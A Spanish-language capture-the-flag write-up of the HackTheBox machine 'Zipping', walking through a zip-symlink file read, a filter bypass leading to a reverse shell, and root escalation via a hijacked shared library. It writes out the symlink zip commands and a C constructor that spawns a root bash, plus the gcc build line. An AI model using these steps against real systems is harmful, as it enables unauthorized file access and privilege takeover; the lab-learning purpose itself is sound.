 # Zipping

Hola, hoy tengo una guia de una maquina de HackTheBox, en las cuales estaremos viendo explotación a partir de subida de archivos y secuestro de librerias para escalada de privilegios. Esta maquina ya la habia resuelto con el metodo del null byte en un archivo zip, pero esto fue parcheado hace unos meses así que mostraré un metodo alterno, por lo que me saltaré la parte de los escaneos

- Plataforma: [HackTheBox](https://app.hackthebox.com/home)
- Dificultad: Medium
- OS: Linux
- IP: 10.10.11.229

- Tenemos dos puertos abiertos, el 80 y 22, la pagina web tiene un apartado para subir archivos zip, nosotros crearemos un link simbolico a /etc/hosts de esta forma:
~~~ bash 
ln -s ../../../../../../etc/hosts document.pdf
zip --symlinks zip.zip document.pdf
~~~
- Ahora al subirlo vemos que hay conectividad y una respuesta por parte del servidor, por lo que podemos concluir que es vulnerable a LFI, devolviéndome una cadena de texto en base64:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/8fdb597e-5693-4c3b-bb56-ef9926e711af)
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/055645c8-d1fe-42f9-a836-5bcdf9d735c4)

- También podemos comprobarlo bajando el archivo directamente:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/5cb00c9b-e1cf-4ecc-8f45-942bfefdebce)

- Para este punto me quedé sin ideas, hasta que se me ocurrió bajar algunos de los archivos que nos muestra como trabaja la aplicación por detrás, en cart.php encontré algo interesante, el valor de product_id parece estar intentando bloquear solicitudes con ciertos caracteres, solo aceptando algunos:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/f9e35c5a-6cc5-4143-8f05-51f50614b27d)

- Según HackTricks podemos ofuscar un payload a través de un bit nulo %0A, si tenemos exito deberiamos ver un codigo de redirección 302:
- Al parecer el servicio de mysql se ejecuta como root, por lo que podremos intentar utilizarlo para que ejecute nuestro payload:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/8b23d68c-dc25-41f7-8fa6-272d1f8809f9)
  - Y podemos ver que nos responde correctamente, por lo que intentaremos inyectar el payload a través de este metodo:
  - Primero, creamos nuestro payload, encondeando 2 veces en base64:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/5c2e9f4d-2ffa-4886-9a36-03d2d0b093ab)

- Después, creamos un archivo en php con la siguiente cadena:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/81fa0f62-3e77-46dc-95c3-4a487bc344ca)

- Y encodeamos este payload en base64 para así poder subirlo de la siguiente forma:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/aa944109-da87-4825-9642-71b3afe8c763)
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/31001874-7fdf-4f8e-b107-d37ae16f9782)


- Perfecto, el archivo está subido y lo único que debemos hacer es tener un listener en nuestro puerto 4444 y solicitar en payload con GET:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/d233ffd4-c449-4d62-bf78-93555cd234a4)


***
<h3>PrivEsc</h3>

- Podemos encontrar un vector de ataque bastante rápido, al observar que podemos ejecutar un binario como sudo:
  ![[Pasted image 20231103175500.png]]
  - Ejecutamos el binario y observamos que solicita una contraseña:

![[Pasted image 20231103175554.png]]
- Llegó la hora de examinar el binario, primero que nada utilizaremos strings, podemos ver que es un binario compilado en C, además de lo que parece ser una contraseña:
  ![[Pasted image 20231103175721.png]]
  Al ingresar la contraseña, el binario simplemente deja de funcionar, al parecer se congela:
  ![[Pasted image 20231103183841.png]]
  - Observamos que intenta llamar a una librería que no existe, por lo cual podemos reemplazar esta con una bash ejecutada desde un archivo C, que crearemos desde /tmp y compilaremos con gcc en la dirección donde debería estar
~~~ c 
#include <stdio.h>
#include <stdlib.h>
void false_lib() { system("/bin/bash"); } 
__attribute__((constructor)) void setup() { false_lib(); }
~~~
 - Este archivo ejecuta una bash a través de la función `setup` que se ejecutará automáticamente antes de la función `main` gracias al atributo `__attribute__((constructor))`, aprovechándonos de que se ejecutará como root, ganaremos privilegios instantáneamente.

   ~~~ bash 
   gcc -shared -o /home/rektsu/.config/libcounter.so -fPIC lib.c
   ~~~
   ![[Pasted image 20231103193618.png]]
 - Y finalmente somos root :D
